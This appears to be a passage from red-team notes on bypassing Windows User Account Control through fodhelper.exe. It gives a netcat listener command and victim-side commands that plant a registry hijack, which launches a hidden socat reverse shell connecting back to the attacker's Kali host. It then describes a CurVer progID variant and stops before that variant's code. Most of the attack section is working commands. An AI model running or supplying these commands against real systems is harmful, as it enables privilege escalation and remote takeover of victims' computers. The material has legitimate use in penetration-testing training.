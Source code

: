 **Kali**

```
nc -lvp 4444
```



**Victim(cmd)**

```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:$KALI:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```



**Victim(cmd)**

```
whoami /groups | find "Label"
```

<figure><img src="../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

### Improving the fodhelper exploit

A variation on the fodhelper exploit was proposed by [@V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses), where different registry keys are used, but the basic principle is the same.

Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have multiple instances of an application with different versions running on the same system. CurVer allows you to point to the default version of the application to be used by Windows when opening a given file type.

To this end, we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.

The exploit code proposed by @V3ded uses Powershell to achieve this end. Here is a modified version of it adapted to use our reverse shell (be sure to replace your IP address where needed):

